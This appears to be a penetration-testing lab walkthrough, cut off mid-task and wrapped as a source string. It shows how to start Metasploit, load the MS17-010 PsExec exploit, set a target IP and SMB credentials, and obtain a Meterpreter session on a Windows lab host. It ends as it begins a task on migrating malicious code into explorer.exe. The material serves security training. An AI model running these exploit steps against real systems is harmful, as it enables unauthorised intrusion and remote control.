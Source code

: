  # cheat sheet for getting a meterpreter session on a windows system.

''

Start a Meterpreter Session on a Windows System

To be able to penetrate a network, you need to exploit a system first. After exploiting this system, you can perform various tasks, which can be pivoting or lateral movements. Depending on the network environment, you need to choose your attack. However, as the first task, a system must be exploited.

In this task, you will learn to connect to a Windows Host and Launch the Exploit. To do this, perform the following steps:
Step 1

Ensure you have powered on all the devices listed in the introduction and connect to PLABKALI01.

On the PLABKALI01 desktop, click the metasploit framework icon.

Figure 1.9 Screenshot of PLABKALI01
Figure 1.9 Screenshot of PLABKALI01: Clicking the metasploit icon on the desktop.

Step 3

On the terminal window displayed, type:

msfconsole

Figure 1.10 Screenshot of PLABKALI01
Figure 1.10 Screenshot of PLABKALI01: Showing the command to startup the Metasploit framework typed in.

Step 4

The metasploit framework has started now.
Note: The number of exploits and payloads will change from time to time.

Figure 1.11 Screenshot of PLABKALI01
Figure 1.11 Screenshot of PLABKALI01: Showing the msf5 prompt after the Metasploit framework starts.

Step 5

You will now use the PsExec exploit. To do this, type the following command:

use exploit/windows/smb/ms17_010_psexec

Press Enter.

Figure 1.12 Screenshot of PLABKALI01
Figure 1.12 Screenshot of PLABKALI01: Entering the psexec command at the msf5 prompt.

Step 6

Next, type the following command:

set RHOST 192.168.0.5

Press Enter.

Figure 1.13 Screenshot of PLABKALI01
Figure 1.13 Screenshot of PLABKALI01: Setting the remote host for exploitation.

Step 7

You will now need to provide user credentials. To do this, type the following command:

set SMBUser admin

Press Enter.

Figure 1.14 Screenshot of PLABKALI01
Figure 1.14 Screenshot of PLABKALI01: Setting the SMBUser.

Step 8

You need to now set the password for the user. Type the following command:

set SMBPass Passw0rd

Press Enter.

Figure 1.15 Screenshot of PLABKALI01
Figure 1.15 Screenshot of PLABKALI01: Setting the password for the SMBUser.

Step 9

Finally, type the following command:

run

Press Enter.

Figure 1.16 Screenshot of PLABKALI01
Figure 1.16 Screenshot of PLABKALI01: Running the exploit using the run command.

Step 10

After the run command completes, notice that a session with the victim’s system is now established.
Note: In case the system returns “no session was created”, repeat the run command to create the meterpreter session.

Figure 1.17 Screenshot of PLABKALI01
Figure 1.17 Screenshot of PLABKALI01: Showing the established session with the victim and showing the victim’s system as exploited.

Keep the terminal window open.
Task 3 - Migrate Malicious Code to an Exploited Windows Host

After you have exploited a Windows host, you can migrate the malicious code to it. This code needs to be transferred from a Meterpreter session to a running process, such as explorer.exe.

In this task, you will migrate malicious code to an exploited Windows host. To do this, perform the following steps:

''


